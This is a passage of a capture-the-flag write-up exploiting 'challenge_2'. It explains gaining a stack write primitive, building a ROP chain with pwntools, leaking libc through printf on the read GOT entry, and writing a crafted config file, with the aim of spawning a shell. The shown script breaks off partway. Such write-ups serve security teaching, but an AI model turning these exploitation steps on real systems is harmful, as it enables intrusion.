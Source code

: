 Since this is the path where the exit value equals `(size1 + size2 + 0xC)` and there is no modification of the heap on the process,  **we gain a write primitive** to `rsp` and **the ability to call a function of our choice**. These are all the ingredients needed to achieve **code execution.**

So let’s outline a plan, the main idea is taking advantage of **stack write primitive** by writing the **ROP chain** in the heap as later will be copied into `rsp` and place a **pointer to a function** on the position `[heap+0x48]`  so execution returns directly to `rsp`.

This is how should look our **config file.**

![Untitled](/CTF/interruptlabsctf-29.png)

In order to craft a proper **ROP chain** to call `system` and **spawn a shell**, a **libc leak** will be needed, we can achieve that invoking `printf` from the **PLT** and passing a **populated GOT entry** as the first argument (in our case, I used `read`).

```python
rop = ROP(exe)
pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address

payload = p64(pop_rdi) + p64(exe.got.read) + p64(exe.sym.printf) + p64(0x401764)
pad = payload + b'A'*(0x32 - len(payload))
heap = b'A'*0x16 + p64(pop_rdi)
data = p16(0x32) + pad + b'rR' + b'A'*0x4 + p16(0x1e) + heap

config_path = "config_file_path"
f = open(config_path, "wb")

f.write(data)
f.flush()
```

The binary gadget `pop_rdi` is placed into `[heap+0x48]` so execution returns directly to `rsp`. Is worth to mention that the end of our **ROP chain** loops back to `copyFromFd` in `main`, allowing us to repeat the attack.

![Untitled](/CTF/interruptlabsctf-30.png)

Nicee we got a **libc leak**, let’s place the actual **ROP chain** to **spawn a shell,** appending the new **config file** to the existing file will do the trick.

```python
from pwn import *

exe = ELF("./challenge_2")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.terminal = ["tmux", "splitw", "-h"]

context.log_level = 'debug'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
start
'''.format(**locals())

rop = ROP(exe)
pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address

payload = p64(pop_rdi) + p64(exe.got.read) + p64(exe.sym.printf) + p64(0x401764)
pad = payload + b'A'*(0x32 - len(payload))
```